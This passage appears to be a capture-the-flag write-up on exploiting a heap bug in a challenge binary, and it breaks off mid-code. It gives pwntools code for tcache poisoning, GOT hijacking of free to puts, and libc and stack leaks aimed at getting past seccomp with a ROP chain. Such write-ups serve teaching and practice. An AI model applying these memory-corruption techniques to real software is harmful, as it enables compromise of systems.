 ## Exploitation

Given we can get overlapping chunks we're able to do tcache poisoning on the `0x40` tcachebin (to deeply understand why I advice you to read the exploit and to run it into gdb). At this point we can simply write the first entry of `@books` that is stored at a fixed memory area within the binary (no PIE). In this new entry we could write a pointer to itself but with a large size in order to be able to write several entries of `@books`. When it is done we could write these entries:
```py
    edit(1, pwn.flat([
            # 1==
            0xff, # sz
            exe.sym.stdout, # to leak libc
            # 2==
            0x8, # sz
            exe.got.free, # to do GOT hiijacking
            # 3==
            0x8, # sz
            exe.sym.secret_msg, # to be able to print an entry of @books
            # 4==
            0xff, # sz
            exe.sym.books # ptr to itself to be able to rewrite the entries when we need to do so
        ] + [0] * 0x60, filler = b"\x00"))
```

This way we can easily leak libc.

## Leaking libc

Leaking libc is very easy given we already setup the entries of `@books`. We can replace `free@GOT` by `puts@plt`. This way the next time free will be called on an entry, it will leak the datas towards which the entry points. Which means `free(book[1])` leaks the address of stdout within the libc.
```py
STDOUT = 0x21a780

# [...]

def libc_leak_free(idx):
    io.sendlineafter(b"Option: ", b"3")
    io.sendlineafter(b"Index: ", str(idx).encode())
    return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00")) - STDOUT

# [...]

# libc leak
libc.address = libc_leak_free(1)
pwn.log.success(f"libc: {hex(libc.address)}")
```

## Leaking the stack

Leaking the libc is cool but given the binary has a seccomp we cannot write one_gadgets on `__malloc_hook` or `__free_hook` or within the GOT (of the libc or of the binary) because of the seccomp. We have to do a ROPchain, to do so we could use `setcontext` but for this libc it is made around `rdx` that we do not control. Or we could simply leak `environ` to get the address of a stackframe from which we could return. That's what we gonna do on the `rewrite_books` stackframe.
```py
def leak_environ(idx):
    io.sendlineafter(b"Option: ", b"3")
    io.sendlineafter(b"Index: ", str(idx).encode())
    return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00"))

# leak stack (environ)
edit(4, pwn.flat([
        # 1==
```